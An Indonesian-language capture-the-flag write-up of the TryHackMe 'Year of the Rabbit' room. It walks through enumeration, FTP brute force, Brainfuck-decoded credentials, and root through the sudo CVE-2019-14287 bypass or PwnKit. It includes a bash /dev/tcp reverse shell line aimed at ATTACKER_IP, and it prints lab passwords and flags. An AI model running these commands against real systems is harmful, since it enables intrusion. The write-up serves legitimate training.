









# Year of the Rabbit — TryHackMe Writeup

**Target:** Year of the Rabbit  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Web Enumeration, FTP, Brainfuck, SSH, Sudo, Privilege Escalation

---

## Recon

Seperti biasa dimulai dengan Rustscan untuk scanning port.

```bash
rustscan -b 2000 --scripts none -t 5000 -a TARGET_IP
```

Dilanjut dengan Nmap untuk enumerasi lanjutan.

```bash
nmap -sC -sV -T4 -p21,22,80 TARGET_IP
```



---

## Web Enumeration

Web berjalan di port 80. Saya coba cek websitenya dan page masih menampilkan default Apache2 Debian.



Di sini saya coba melakukan directory fuzzing menggunakan ffuf untuk mengetahui directory yang ada.

```bash
ffuf -w ~/wordlists/web-big.txt -u http://TARGET_IP/FUZZ -fc 403 -t 200
```



Ditemukan endpoint `/assets`. Saya langsung coba buka di web dan mendapatkan:



Di dalam `style.css` terdapat komentar:

```css
/* Nice to see someone checking the stylesheets.
   Take a look at the page: /sup3r_s3cr3t_fl4g.php
*/
```

Saat dites menggunakan `curl`, endpoint tersebut memberikan response:

```text
HTTP/1.1 302 Found
Date: Sat, 15 Aug 2026 02:25:22 GMT
Server: Apache/2.4.10 (Debian)
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Dari response tersebut terdapat endpoint baru:

```text
WExYY2Cv-qU
```

Setelah dicek, hanya terdapat satu file PNG. Saya mencoba mendownload file tersebut dan meminta GPT untuk membedahnya. Ditemukan terdapat **1224 byte trailing data setelah IEND** dengan isi:

```text
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
```

Setelah pesan tersebut terdapat 83 kandidat password.

Saya kemudian meminta GPT untuk memisahkan kandidat password tersebut dan membuatnya sebagai wordlist untuk melakukan brute force FTP.

Setelah mendapatkan wordlist, saya mencoba melakukan brute force menggunakan Hydra di PRoot Distro Kali Linux.



Hydra berhasil menemukan password FTP.

---

## FTP Enumeration

Setelah berhasil login ke FTP, terdapat satu file:

```text
Eli's_Creds.txt
```

Saya mendownload file tersebut dan mendapatkan isi berupa kode Brainfuck.

```text
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

Saya kemudian meminta GPT untuk melakukan decoding terhadap Brainfuck dan mendapatkan credential:

```text
User: eli
Password: DSpDiM1wAEwid
```

Credential tersebut kemudian saya gunakan untuk login SSH.



---

## Lateral Movement — User `gwendoline`

Berdasarkan message dari root yang ditemukan sebelumnya, saya mencoba mencari file yang berhubungan dengan `s3cr3t` menggunakan:

```bash
find / -iname '*s3cr3t*' 2>/dev/null
```

Ditemukan:

```text
/usr/games/s3cr3t
```

Di dalamnya terdapat file `.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!` yang berisi:

```text
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

Dari message tersebut saya mendapatkan password:

```text
MniVCQVhQHUNI
```

Saya berhasil login sebagai user `gwendoline`.

Selanjutnya saya mencoba `sudo -l` untuk melihat apakah user tersebut dapat melakukan sesuatu sebagai root.

```bash
sudo -l
```

Hasilnya:

```text
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

User `gwendoline` dapat menjalankan `/usr/bin/vi /home/gwendoline/user.txt` sebagai user mana pun selain root.

Hal ini cukup aneh karena hanya ada dua user yang relevan, yaitu `eli` dan `gwendoline`. User `eli` sendiri sudah saya gunakan sebagai foothold pertama melalui SSH, kemudian dilanjutkan dengan privilege escalation ke `gwendoline`.

---

## Privilege Escalation — CVE-2019-14287

Setelah enumerasi lebih lanjut, saya menemukan bahwa versi sudo yang digunakan adalah:

```text
Sudo version 1.8.10p3
```

Versi tersebut rentan terhadap **CVE-2019-14287**.

Intinya, walaupun sudo dikonfigurasi agar user dapat menjalankan command sebagai siapa saja kecuali root, penggunaan UID `-1` melalui `sudo -u#-1` dapat membuat command tersebut tetap berjalan sebagai root.

Untuk membuktikannya:

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

Saat berada di dalam shell `vi`, saya memasukkan:

```text
!id
```



Dapat dilihat bahwa command berhasil dieksekusi sebagai root.

Setelah berhasil membuktikan privilege escalation, saya mencoba melakukan reverse shell untuk mendapatkan akses root.

Payload yang digunakan di dalam `vi`:

```text
:!bash -i >& /dev/tcp/ATTACKER_IP/9004 0>&1
```

Saya kemudian menjalankan listener Netcat dan berhasil mendapatkan root shell.



---

## Alternate Root — CVE-2021-4034

Target juga vulnerable terhadap **CVE-2021-4034 (PwnKit)**.

Langkah reproduksinya cukup sederhana:

```bash
git clone https://github.com/berdav/CVE-2021-4034.git
```

Kemudian saya mengompres file tersebut, mengirimkannya ke mesin target, dan melakukan compile langsung di target.



Exploit berhasil memberikan akses root.

---

## Flags

### User Flag

```text
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

### Root Flag

```text
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```

